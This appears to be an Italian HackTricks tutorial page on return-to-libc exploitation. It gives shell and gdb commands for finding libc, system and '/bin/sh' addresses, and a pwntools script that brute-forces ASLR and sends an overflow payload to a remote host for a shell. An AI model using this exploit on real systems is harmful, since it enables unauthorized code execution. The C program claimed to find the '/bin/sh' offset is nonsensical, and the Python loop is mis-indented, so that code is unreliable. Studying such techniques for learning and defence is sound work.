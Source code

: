 <details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository github di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>


**Se hai trovato un binario vulnerabile e pensi di poterlo sfruttare usando Ret2Lib, qui troverai alcuni passaggi di base che puoi seguire.**

# Se sei **all'interno** dell'**host**

## Puoi trovare l'**indirizzo di lib**c
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
Se vuoi verificare se l'ASLR sta cambiando l'indirizzo di libc, puoi fare quanto segue:
```bash
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```
## Ottenere l'offset della funzione system

To exploit a binary using a return-to-libc attack, we need to know the offset of the `system` function in the target system's libc library. This offset will help us calculate the address of the `system` function in memory.

To find the offset, we can use the `nm` command to list the symbols in the libc library and search for the `system` function. The offset is the hexadecimal value listed before the symbol name.

Here's an example command to find the offset of the `system` function:

```bash
nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep " system$"
```

This command will search for the symbol name "system" in the libc library and display the corresponding offset. Once we have the offset, we can calculate the address of the `system` function by adding it to the base address of the libc library in memory.

Keep in mind that the libc library and its symbols may vary depending on the target system. So, it's important to use the correct libc library for the target system when calculating the offset.
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
## Ottenere l'offset di "/bin/sh"

Per ottenere l'offset di "/bin/sh", possiamo utilizzare il seguente codice in C:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char *ptr = getenv("PATH");
    int offset = 0;

    while (ptr != NULL) {
        if (strcmp(ptr, "/bin/sh") == 0) {
            printf("Offset: %d\n", offset);
            break;
        }
        offset++;
        ptr = getenv(NULL);
    }

    return 0;
}
```

Compilare ed eseguire il codice C sopra riportato restituirà l'offset di "/bin/sh".
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
## /proc/\<PID>/maps

Se il processo crea **figli** ogni volta che si comunica con esso (server di rete), prova a **leggere** quel file (probabilmente avrai bisogno di essere root).

Qui puoi trovare **esattamente dove è caricata la libc** all'interno del processo e **dove sarà caricata** per ogni figlio del processo.

![](<../../.gitbook/assets/image (95).png>)

In questo caso è caricata in **0xb75dc000** (questo sarà l'indirizzo di base della libc)

## Usando gdb-peda

Ottieni l'indirizzo della funzione **system**, della funzione **exit** e della stringa **"/bin/sh"** utilizzando gdb-peda:
```
p system
p exit
find "/bin/sh"
```
# Bypassare ASLR

Puoi provare a forzare l'indirizzo base di libc.
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
# Codice
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive() #?
```
<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository github di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

